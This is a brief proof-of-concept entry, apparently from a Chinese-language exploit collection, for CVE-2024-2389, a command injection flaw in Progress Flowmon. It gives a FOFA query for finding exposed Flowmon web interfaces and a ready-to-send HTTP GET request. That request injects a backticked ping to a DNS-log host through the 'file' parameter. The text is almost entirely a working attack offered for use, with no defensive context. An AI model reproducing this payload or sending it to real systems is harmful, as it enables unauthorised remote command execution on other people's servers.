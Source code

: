 ## Progress-Flowmon命令注入漏洞(CVE-2024-2389)


## fofa
```
body="Flowmon-Web-Interface"
```


## poc
```
GET /service.pdfs/confluence?lang=en&file=`ping+dnslog地址` HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```
